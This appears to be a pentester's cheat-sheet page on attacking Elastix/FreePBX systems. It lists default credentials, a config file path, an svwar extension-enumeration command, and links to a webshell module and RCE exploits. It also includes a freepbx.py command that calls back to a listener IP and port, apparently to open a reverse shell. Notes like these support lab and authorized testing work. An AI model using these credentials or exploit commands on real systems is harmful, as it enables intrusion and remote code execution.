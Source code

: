 # elastic freepbx

**NOTE: Possible has vtiger CRM directory too.**

## How to verify version

```aspnet
# top left the 'i' icon > Version
```

## Default creds

```
admin:admin
root:root
admin:sangoma
root:sangoma
```

## Interesting Paths

```
# config file path
- /etc/amportal.conf
```

## Find PBX Extension

```
# authenticated
Head to PBX after logging into Elastix and can see existing extensions / create new (image in end)
https://IP/index.php?menu=pbxconfig

# unAuthenticated
$ svwar -m INVITE -e001-999 IP
```

## Create new PBX extension (authenticated)

## freepbx 13 (Authenticated)

v13.0.151 | 13.0.188.8

```
# PHP weshell using Admin Module
https://github.com/DarkCoderSc/freepbx-shell-admin-module

# RCE + PE
https://github.com/chrisjd20/exploits/blob/master/freepbx.py
python freepbx.py -u http://10.2.2.109 -l 10.2.2.115 -p 4444 -s R
```

## elastix 2.2.0

```
https://github.com/infosecjunky/FreePBX-2.10.0---Elastix-2.2.0---Remote-Code-Execution

https://www.exploit-db.com/exploits/18650 (follow Beep for error-fix)
https://github.com/am0nsec/exploit/blob/master/unix/webapp/FreePBX-2.10/freepbx_2.10_with_ssl.py
```
